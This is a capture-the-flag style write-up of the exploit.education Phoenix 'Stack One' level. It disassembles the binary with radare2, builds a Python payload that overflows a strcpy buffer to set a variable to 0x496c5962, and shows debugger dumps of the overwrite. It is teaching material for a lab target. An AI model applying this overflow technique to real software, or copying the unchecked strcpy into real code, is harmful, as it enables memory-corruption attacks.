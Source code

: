 ```yaml
---
layout: post
title:  "Phoenix x86 Stack One"
date: "2019-10-10 15:00:00 +0300"
categories: exploit-education phoenix x86
---
```


Stack One is very much like the first level with a few minor exceptions, which will be introduced shortly.

The use of `rabin2` is essential to understand a little bit about the binary.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-one
arch     x86
baddr    0x8048000
binsz    3651
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

So as to avoid repetition, the information about the binary is almost identical to that of the previous level. To sum up, this is a 32-bit Linux ELF with no protection against stack-based buffer overflows, among others.

Time to disassemble the binary with `radare2`.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-one
{% endhighlight %}

{% highlight nasm %}
[0x08048380]> aas
Cannot analyze at 0x080485f0
[0x08048380]> afl
0x080482fc    1 17           sym._init
0x080484d0    7 277  -> 112  sym.frame_dummy
0x080485b0    5 49           sym.__do_global_ctors_aux
0x080485e1    1 12           sym._fini
0x08048450    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   47 524  -> 625  sym..interp
0x08048380    1 62           entry0
0x08048370    1 6            sym.imp.__libc_start_main
0x080486f8    1 14           loc.__GNU_EH_FRAME_HDR
0x08048714    3 34           sym..eh_frame
0x08048750    1 44           obj.__EH_FRAME_BEGIN
0x080483c0    4 49   -> 40   sym.deregister_tm_clones
0x08048515    6 145          main
0x08048340    1 6            sym.imp.puts
0x08048350    1 6            sym.imp.errx
0x08048320    1 6            sym.imp.strcpy
0x08048330    1 6            sym.imp.printf
0x08048360    1 6            sym.imp.exit
[0x08048380]> s main
[0x08048515]> pdf
/ (fcn) main 145
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483b4
|           0x08048515      8d4c2404       lea ecx, [arg_4h]
|           0x08048519      83e4f0         and esp, 0xfffffff0
|           0x0804851c      ff71fc         push dword [ecx - 4]
|           0x0804851f      55             push ebp
|           0x08048520      89e5           mov ebp, esp
|           0x08048522      53             push ebx
|           0x08048523      51             push ecx
|           0x08048524      83ec50         sub esp, 0x50
|           0x08048527      89cb           mov ebx, ecx
|           0x08048529      83ec0c         sub esp, 0xc
|           0x0804852c      68f0850408     push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x80485f0 ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"
|           0x08048531      e80afeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048536      83c410         add esp, 0x10
|           0x08048539      833b01         cmp dword [ebx], 1
|       ,=< 0x0804853c      7f0f           jg 0x804854d
|       |   0x0804853e      83ec08         sub esp, 8
|       |   0x08048541      683c860408     push str.specify_an_argument__to_be_copied_into_the__buffer ; 0x804863c ; "specify an argument, to be copied into the \"buffer\""
|       |   0x08048546      6a01           push 1                      ; 1
|       |   0x08048548      e803feffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x0804854d      c745f4000000.  mov dword [var_ch], 0
|           0x08048554      8b4304         mov eax, dword [ebx + 4]
|           0x08048557      83c004         add eax, 4
|           0x0804855a      8b00           mov eax, dword [eax]
|           0x0804855c      83ec08         sub esp, 8
|           0x0804855f      50             push eax
|           0x08048560      8d45b4         lea eax, [var_4ch]
|           0x08048563      50             push eax
|           0x08048564      e8b7fdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
|           0x08048569      83c410         add esp, 0x10
|           0x0804856c      8b45f4         mov eax, dword [var_ch]
|           0x0804856f      3d62596c49     cmp eax, 0x496c5962
|       ,=< 0x08048574      7512           jne 0x8048588
|       |   0x08048576      83ec0c         sub esp, 0xc
|       |   0x08048579      6870860408     push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value ; 0x8048670 ; "Well done, you have successfully set changeme to the correct value"
|       |   0x0804857e      e8bdfdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x08048583      83c410         add esp, 0x10
|      ,==< 0x08048586      eb14           jmp 0x804859c
|      |`-> 0x08048588      8b45f4         mov eax, dword [var_ch]
|      |    0x0804858b      83ec08         sub esp, 8
|      |    0x0804858e      50             push eax
|      |    0x0804858f      68b4860408     push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962 ; 0x80486b4 ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"
|      |    0x08048594      e897fdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x08048599      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x8048586
|      `--> 0x0804859c      83ec0c         sub esp, 0xc
|           0x0804859f      6a00           push 0
\           0x080485a1      e8bafdffff     call sym.imp.exit           ; void exit(int status)
{% endhighlight %}

Below is the output of `agf`, which outputs the basic blocks function graph.

{% highlight nasm %}
[0x08048515]> agf
[0x08048515]>  # int main (int argc, char **argv, char **envp);
                   .---------------------------------------------------------------------------------------.
                   |  0x8048515                                                                            |
                   | (fcn) main 145                                                                        |
                   |   int main (int argc, char **argv, char **envp);                                      |
                   | ; var int32_t var_4ch @ ebp-0x4c                                                      |
                   | ; var int32_t var_ch @ ebp-0xc                                                        |
                   | ; arg int32_t arg_4h @ esp+0x4                                                        |
                   | ; DATA XREF from entry0 @ 0x80483b4                                                   |
                   | lea ecx, [arg_4h]                                                                     |
                   | and esp, 0xfffffff0                                                                   |
                   | push dword [ecx - 4]                                                                  |
                   | push ebp                                                                              |
                   | mov ebp, esp                                                                          |
                   | push ebx                                                                              |
                   | push ecx                                                                              |
                   | sub esp, 0x50                                                                         |
                   | mov ebx, ecx                                                                          |
                   | sub esp, 0xc                                                                          |
                   | ; sym..rodata                                                                         |
                   | ; 0x80485f0                                                                           |
                   | ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"         |
                   | push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education    |
                   | ; int puts(const char *s)                                                             |
                   | call sym.imp.puts;[oa]                                                                |
                   | add esp, 0x10                                                                         |
                   | cmp dword [ebx], 1                                                                    |
                   | jg 0x804854d                                                                          |
                   `---------------------------------------------------------------------------------------'
                           f t
                           | |
                           | '--------------------------------------------.
    .----------------------'                                              |
    |                                                                     |
.----------------------------------------------------------------.    .---------------------------------------------.
|  0x804853e                                                     |    |  0x804854d                                  |
| sub esp, 8                                                     |    | mov dword [var_ch], 0                       |
| ; 0x804863c                                                    |    | mov eax, dword [ebx + 4]                    |
| ; "specify an argument, to be copied into the \"buffer\""      |    | add eax, 4                                  |
| push str.specify_an_argument__to_be_copied_into_the__buffer    |    | mov eax, dword [eax]                        |
| ; 1                                                            |    | sub esp, 8                                  |
| push 1                                                         |    | push eax                                    |
| ; void errx(int eval)                                          |    | lea eax, [var_4ch]                          |
| call sym.imp.errx;[ob]                                         |    | push eax                                    |
`----------------------------------------------------------------'    | ; char *strcpy(char *dest, const char *src) |
                                                                      | call sym.imp.strcpy;[oc]                    |
                                                                      | add esp, 0x10                               |
                                                                      | mov eax, dword [var_ch]                     |
                                                                      | cmp eax, 0x496c5962                         |
                                                                      | jne 0x8048588                               |
                                                                      `---------------------------------------------'
                                                                              f t
                                                                              | |
                                                                              | '-------------------.
              .---------------------------------------------------------------'                     |
              |                                                                                     |
          .--------------------------------------------------------------------------------.    .------------------------------------------------------------------------------.
          |  0x8048576                                                                     |    |  0x8048588                                                                   |
          | sub esp, 0xc                                                                   |    | mov eax, dword [var_ch]                                                      |
          | ; 0x8048670                                                                    |    | sub esp, 8                                                                   |
          | ; "Well done, you have successfully set changeme to the correct value"         |    | push eax                                                                     |
          | push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value    |    | ; 0x80486b4                                                                  |
          | ; int puts(const char *s)                                                      |    | ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"       |
          | call sym.imp.puts;[oa]                                                         |    | push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962    |
          | add esp, 0x10                                                                  |    | ; int printf(const char *format)                                             |
          | jmp 0x804859c                                                                  |    | call sym.imp.printf;[od]                                                     |
          `--------------------------------------------------------------------------------'    | add esp, 0x10                                                                |
              v                                                                                 `------------------------------------------------------------------------------'
              |                                                                                     v
              |                                                                                     |
              '------------------------------------------------------------------.                  |
                                                                                 | .----------------'
                                                                                 | |
                                                                           .-----------------------------------.
                                                                           |  0x804859c                        |
                                                                           | ; CODE XREF from main @ 0x8048586 |
                                                                           | sub esp, 0xc                      |
                                                                           | push 0                            |
                                                                           | ; void exit(int status)           |
                                                                           | call sym.imp.exit;[oe]            |
                                                                           `-----------------------------------'
{% endhighlight %}

Unlike the previous level, the input is not read from STDIN, but, rather, is passed as an argument to the binary. Also, the `gets` call is replaced by `strcpy`, which also allows stack-based buffer overflows considering that it does not restrict the size of bytes to be copied.

The buffer's size is still 64 bytes and we need to overflow the stack so that the value of the local variable `var_ch` is overwritten with `0x496c5962`.

Here follows a `python3` script to create the exploit:

{% highlight python %}
#!/usr/bin/env python3
print("X"*64+"\x62\x59\x6c\x49")
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-one `cat pattern`
{% endhighlight %}

In order to verify the stack contents before and after the `strcpy` call, a breakpoint is needed at the address of that call.

{% highlight nasm %}
[0xf7f20d4b]> aas
Cannot analyze at 0x080485f0
[0xf7f20d4b]> db 0x08048564
[0xf7f20d4b]> dc
Welcome to phoenix/stack-one, brought to you by https://exploit.education
hit breakpoint at: 8048564
{% endhighlight %}

The value of `var_ch` before the call is:

{% highlight nasm %}
[0xf7eed929]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x00000000                                   ....
{% endhighlight %}

The stack before the call:

{% highlight nasm %}
[0x08048564]> dr
eax = 0xffa8ae6c
ebx = 0xffa8aed0
ecx = 0xffa8ada0
edx = 0x00000000
esi = 0xffa8af44
edi = 0x00000002
esp = 0xffa8ae50
ebp = 0xffa8aeb8
eip = 0x08048564
eflags = 0x00000292
oeax = 0xffffffff
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x0000005c  ............\...
0xffa8ae70  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8ae80  0x00000011 0xf7f5819c 0x00000000 0x080482cc  ................
0xffa8ae90  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8aea0  0x00000000 0x00000000 0x00000000 0x00000000  ................
{% endhighlight %}

and after the call:

{% highlight nasm %}
[0x08048564]> dso
hit breakpoint at: 8048569
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x58585858  ............XXXX
0xffa8ae70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8aea0  0x58585858 0x58585858 0x58585858 0x496c5962  XXXXXXXXXXXXbYlI
{% endhighlight %}

Note that the value of the local variable `var_ch` has been overwritten, as is shown below:

{% highlight nasm %}
[0x08048564]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x496c5962                                   bYlI
{% endhighlight %}

Continuing with the execution:

{% highlight plaintext %}
[0x08048564]> dc
Well done, you have successfully set changeme to the correct value
{% endhighlight %}

## Conclusion
This level has many similarities with the first level, but with one noteable difference. That is, the objective was not to simply overwrite the value of a local variable, but to overflow the stack such that the variable contains a specific value.